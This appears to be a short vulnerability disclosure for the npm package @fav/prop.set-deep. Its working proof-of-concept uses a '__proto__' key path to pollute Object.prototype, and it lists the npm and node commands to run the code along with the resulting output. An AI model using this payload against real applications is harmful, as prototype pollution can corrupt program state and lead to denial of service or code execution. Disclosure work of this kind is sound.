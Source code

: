 # Description

`@fav/prop.set-deep` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```javascript
// poc.js
var setDeep = require("@fav/prop.set-deep")

var obj = {};
console.log("Before: " + {}.polluted);
setDeep(obj, ["__proto__", "polluted"], "Yes, its polluted")
console.log("After: ", {}.polluted);
```
2. Execute the following commands in the terminal:
```bash
npm i @fav/prop.set-deep # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: Yes, its polluted
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.